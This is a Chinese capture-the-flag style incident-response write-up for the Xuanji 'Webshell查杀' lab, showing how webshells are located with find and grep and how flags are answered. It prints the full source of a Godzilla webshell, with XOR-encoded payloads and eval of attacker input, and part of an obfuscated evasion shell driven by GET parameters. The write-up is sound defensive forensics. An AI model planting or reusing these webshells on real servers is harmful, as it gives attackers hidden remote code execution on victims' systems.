 ```yaml
---
title: 玄机 第一章 应急响应 Webshell查杀
description: 玄机 第一章 应急响应 Webshell查杀 WP
pubDate: 10 15 2024
image: https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.webp
categories:
  - 网络安全
tags:
  - 靶场
  - 应急响应
  - 玄机靶场
---
```


## 靶场环境

环境：69.230.239.23 / 10.0.10.3

靶机账号密码 root xjwebshell

- 黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 黑客使用的什么工具的shell github地址的md5 flag{md5}
- 黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 黑客免杀马完整路径 md5 flag{md5}

## WP

来到网站根目录，得到 `shell.php`

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-1.webp)

没有 flag，find 命令寻找

```shell
find . -name "*.php"
```

寻找后得到 webshell 文件为 `./include/gz.php`，拿到 flag

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-2.webp)

观察特征

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

开头的

```php
@session_start();
@set_time_limit(0);
@error_reporting(0);
```

明显是哥斯拉的，github 地址为 `https://github.com/BeichenDream/Godzilla`，加密 MD5 得到 `39392DE3218C333F794BEFEF07AC9257`，得到 flag

第三个 flag 是隐藏的 shell，挨个找呗，发现 `.Mysqli.php` 是加密的。

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-3.webp)

对路径 `/var/www/html/include/Db/.Mysqli.php` MD5 加密得到 `AEBAC0E58CD6C5FAD1695EE4D1AC1919`

然后是找免杀马，文件太多了，因为是哥斯拉的木马，所以免杀文件里很有可能还有 key 字样，我们找目录下所有文件内容带 key 的 php 文件

```shell
grep -r "key" --include "*.php" /var/www/html
```

得到了一堆 php 文件，然后就挨个看吧

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.webp)

发现一个特殊文件

```php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
```

MD5加密路径得到 flag `EEFF2EABFD9B7A6D26FC1A53D3F7D1DE`
